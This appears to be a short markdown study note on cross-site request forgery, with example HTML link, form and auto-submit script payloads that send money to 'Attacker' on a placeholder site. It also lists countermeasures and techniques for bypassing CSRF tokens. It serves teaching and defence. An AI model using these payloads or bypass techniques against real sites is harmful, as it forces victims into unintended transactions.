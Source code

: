 # Cross Site Request Forgery Vulnerability

CSRF is an attack vector that allows an attacker to get the users to perform actions that they do not intend to perform. 

### Get Request
```html
<a href="http://site.com/send?to=Attacker&amount=$500">Click me!</a>
```
### Post Request
```html
<form action="http://site.com/send" method="POST">
	<input type="hidden" name="to" value="Attacker"/>
	<input type="hidden" name="amount" value="$500"/>
	<input type="submit" value="Click me"/>
</form>
```

To perform an automatic submit:

```javascript
<script>
	document.forms[0].submit();
</script>
```

![CSRF](https://www.imperva.com/learn/wp-content/uploads/sites/13/2019/01/csrf-cross-site-request-forgery.png)

***

## Countermeasures:

	- Implementing a CSRF token, This random token is unique for every session ID, it acts as an extra parameter when performing a request to make sure the origin of the request and verified by the server.
	- Generate random tokens for both Cookies and Request parameters.
	- Users should log off from website when they aren't in use, with disallowing the browser to save the credentials.

***

## Technique to bypass Token verifications: 

	- Removing the CSRF Token from the request, or leaving it empty.
	- Use a duplicated token from a previous request.
	- Check if you can predict the token generation mechanism.
	- Sending a random token

***

## Takeaways: 

	- Keep an eye for HTTP requests that perform some action on the server.
	- Get requests should never modify any data on the server.

